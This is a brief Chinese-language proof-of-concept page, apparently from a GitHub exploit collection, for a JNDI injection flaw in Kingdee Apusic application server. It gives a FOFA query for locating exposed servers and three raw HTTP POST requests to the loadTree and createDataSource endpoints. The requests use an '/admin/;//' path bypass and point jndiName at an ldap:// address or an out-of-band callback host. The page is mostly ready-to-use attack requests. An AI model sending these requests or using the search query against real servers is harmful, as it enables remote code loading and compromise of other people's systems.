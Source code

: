 ## 金蝶Apusic应用服务器loadTree JNDI注入漏洞

## fofa
```
app="Apusic应用服务器"
```

## poc
```
POST /appmonitor/protect/jndi/loadTree HTTP/1.1
host:127.0.0.1

jndiName==ldap://地址



POST /admin/;//protect/jndi/loadTree HTTP/1.1
host:127.0.0.1

jndiName==ldap://地址



POST /admin/;//protect/datasource/createDataSource HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Content-Length: 260
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/x-www-form-urlencoded

name=nobg7&jndiName=ldap://cm38sdn1l3f79d1jb0jgoahe856jrdjkg.oast.site/ahsdhashduqwe&dbtype=mysql&drivertype=&host=127.0.0.1&port=3306&dbname=nobg7&userName=nobg7&password=nobg7&repassword=nobg7&connectionURL=sdasd&driverClassName=java.lang.String&testCommand=
```

![a519acd405e2e60c00108378f8410c8d](https://github.com/wy876/POC/assets/139549762/faa32ae9-f7b0-4a76-9990-74635d28bd2f)

![1dc3f827f335c01618f9dd9c4b39832b](https://github.com/wy876/POC/assets/139549762/6eff9f3b-df75-4008-b713-db61a32739bd)

![584c726b09f954433d5c3248ac5c1368](https://github.com/wy876/POC/assets/139549762/dfe99f4f-d6eb-4869-a2f8-59d792d9dac4)

![02678af9ca19b8ee1104c874943e5f94](https://github.com/wy876/POC/assets/139549762/09aba93a-9c71-4924-9314-28f054ce2fd7)


##漏洞来源
- https://mp.weixin.qq.com/s/iEHmFOKq5LT2x9Hp1ysLIw
